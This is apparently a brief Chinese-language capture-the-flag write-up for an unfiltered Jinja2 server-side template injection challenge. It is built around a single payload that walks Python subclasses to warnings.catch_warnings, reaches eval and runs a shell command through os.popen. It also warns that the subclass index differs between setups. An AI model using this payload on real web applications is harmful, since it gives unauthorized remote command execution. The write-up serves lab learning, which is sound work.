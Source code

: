 ### `0x00` 题解

没有任何过滤的`SSTI`，直接找到`warnings.catch_warnings`拿下就可以了。

```data
{{[].__class__.__base__.__subclasses__()[110].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

![image-20210219081903832](https://i.loli.net/2021/02/19/Fjgk9cJRVAb62uz.png)

PS: 照抄`payload`不一定可以用，这里用了`warnings.catch_warnings`这个类的位置会变化的。